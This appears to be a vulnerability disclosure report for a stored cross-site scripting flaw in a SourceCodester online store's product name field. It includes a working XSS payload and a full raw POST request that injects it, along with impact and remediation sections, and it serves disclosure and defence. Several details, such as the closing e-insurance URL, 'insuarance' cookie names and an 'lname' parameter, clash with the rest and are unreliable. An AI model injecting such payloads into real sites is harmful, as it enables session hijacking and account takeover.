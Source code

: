 Stored Cross-Site Scripting Vulnerability in SourceCodester Cosmetics and Beauty Product Online Store - 1.0
:

    Vendor: Sourcecodester
    Product: Cosmetics and Beauty Product Online Store - 1.0
    Product URL: Cosmetics and Beauty Product Online Store - 1.0

Executive Summary

Stored Cross-Site Scripting (SXSS) vulnerability in Cosmetics and Beauty Product Online Store - 1.0 and earlier allows attacker to inject the Malicious JavaScript Code in the "Product Name" input field. The malicious code can then be executed whenever the vulnerable web page is accessed by any user, staff or even admin and will remain persistent. It will eventually result in account takeover as the session cookies can be accessed by the malicious JavaScript Code.
Issue Details

    Vulnerability Name: Stored XSS in Product Name
    Severity: High
    Affected URL: http://localhost/cbpos/classes/Master.php?f=save_product 
    Affected Parameter: Product Name
    HTTP Method: POST

Issue Description

The web application is vulnerable to Cross-Site Scripting (SXSS) attacks in the "Product Name" input field. An attacker can exploit this vulnerability by inputting the malicious JavaScript code in the HTTP POST request to create the user. In the provided example, the attacker modifies the "Product Name" parameter to insert a malicious JavaScript Code that can also access the authentication cookies.
Proof Of Concept

Configure a web proxy in your browser.

Navigate to the URL in the browser http://localhost/cbpos/classes/Master.php?f=save_product 

Fill in the desired data in the input fields. Intercept the request in the web proxy. Modify the lname parameter as shown below and send the request to the server.

> Content-Disposition: form-data; name="name"
>
> "><img src=xx onerror=alert(document.cookie)>


In the browser just create an product with malicious script and navigate to homepage

https://drive.google.com/file/d/1t29u20nWeS-dk8z-xNo5VJBecWtuM8V-/view?usp=drive_link
Payload:

> Content-Disposition: form-data; name="name"
>
> "><img src=xx onerror=alert(document.cookie)>

Request:
```bash
POST /cbpos/classes/Master.php?f=save_product HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:124.0) Gecko/20100101 Firefox/124.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=---------------------------424935362530218054633052935758
Content-Length: 1086
Origin: http://localhost
Connection: close
Referer: http://localhost/cbpos/admin/?page=product/manage_product
Cookie: PHPSESSID=kmfcp9qgvb789441h8l4ues37v; __insuarance__logged=1; __insuarance__key=DEAH5SIN6WSHVCZFXTH5
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

-----------------------------424935362530218054633052935758
Content-Disposition: form-data; name="id"


-----------------------------424935362530218054633052935758
Content-Disposition: form-data; name="brand_id"

5
-----------------------------424935362530218054633052935758
Content-Disposition: form-data; name="category_id"

7
-----------------------------424935362530218054633052935758
Content-Disposition: form-data; name="name"

"><img src=xx onerror=alert(document.cookie)>
-----------------------------424935362530218054633052935758
Content-Disposition: form-data; name="specs"

<p>hiii<br></p>
-----------------------------424935362530218054633052935758
Content-Disposition: form-data; name="files"; filename=""
Content-Type: application/octet-stream


-----------------------------424935362530218054633052935758
Content-Disposition: form-data; name="status"

1
-----------------------------424935362530218054633052935758
Content-Disposition: form-data; name="img[]"; filename=""
Content-Type: application/octet-stream


-----------------------------424935362530218054633052935758--
```
Impact:

Stored XSS attacks can have serious consequences, such as Account takeover by stealing cookies, stealing sensitive data, modifying the content of the web page, or redirecting users to a malicious sites.
Remediation:

Implement proper input validation and output encoding to prevent malicious code from being injected into the web application. Use server-side validation to ensure that user input is properly sanitized before being stored in a database or displayed on a web page. Use output encoding to ensure that any user input that is displayed on the web page is properly encoded to prevent malicious code from being executed.
References:

https://portswigger.net/web-security/cross-site-scripting/stored

https://owasp.org/www-community/attacks/xss/

Weakness Enumeration:

CWE-79

This report highlights the Stored XSS vulnerability present in the Product name parameter of http://localhost/e-insurance/Script./core/new_account, including the Proof of Concept, its impact, remediation steps and references for further guidance on mitigation strategies.
